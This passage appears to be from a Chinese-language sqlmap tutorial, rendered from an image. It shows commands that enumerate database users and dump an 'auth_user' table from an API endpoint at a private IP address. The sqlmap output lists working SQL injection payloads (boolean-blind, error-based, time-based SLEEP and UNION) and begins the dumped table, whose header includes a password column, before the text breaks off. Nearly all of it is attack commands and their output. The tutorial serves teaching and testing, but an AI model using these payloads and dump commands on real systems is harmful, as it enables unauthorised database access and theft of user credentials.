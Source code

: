 	python sqlmap.py -u http://172.20.201.203:9000/apis/dashboard/typetopcount\?method\=POST\&topCount\=3 --users

	[14:21:05] [INFO] fetching database users
	database management system users [1]:
	[*] 'db_itapi_dpl'@'%'
	
	[14:21:05] [INFO] fetched data logged to text files under '/Users/didi/.sqlmap/output/172.20.201.203'
	
	

### 2.7 获取数据库表内容 ----dump

	python sqlmap.py -u http://172.20.201.203:9000/apis/dashboard/typetopcount\?method\=POST\&topCount\=3 -D 'itapidb' -T 'auth_user' --dump
	        ___
	       __H__
	 ___ ___[.]_____ ___ ___  {1.3.8.12#dev}
	|_ -| . [.]     | .'| . |
	|___|_  ["]_|_|_|__,|  _|
	      |_|V...       |_|   http://sqlmap.org
	
	[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
	
	
	[14:26:10] [INFO] resuming back-end DBMS 'mysql'
	[14:26:10] [INFO] testing connection to the target URL
	sqlmap resumed the following injection point(s) from stored session:
	---
	Parameter: method (GET)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: method=POST' AND 5176=5176 AND 'EvFC'='EvFC&topCount=3
	
	    Type: error-based
	    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	    Payload: method=POST' AND (SELECT 2244 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(2244=2244,1))),0x7170717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'CWNF'='CWNF&topCount=3
	
	    Type: time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	    Payload: method=POST' AND (SELECT 8526 FROM (SELECT(SLEEP(5)))yhHi) AND 'Djtf'='Djtf&topCount=3
	
	    Type: UNION query
	    Title: Generic UNION query (NULL) - 2 columns
	    Payload: method=POST' UNION ALL SELECT CONCAT(0x716a7a6b71,0x685773786e4b6578754b534c4a79487979684b46586a77546d6a69656677786e7748474a4a746177,0x7170717871),NULL-- rehY&topCount=3
	---
	[14:26:10] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0
	[14:26:10] [INFO] fetching columns for table 'auth_user' in database 'itapidb'
	[14:26:10] [INFO] fetching entries for table 'auth_user' in database 'itapidb'
	Database: itapidb
	Table: auth_user
	[1 entry]
	+----+---------+----------+--------------------------------------------------------------------------------+----------+-----------+-----------+------------+----------------------------+----------------------------+--------------+
	| id | email   | is_staff | password                                                                       | username | is_active | last_name | first_name | last_login                 | date_joined                | is_superuser |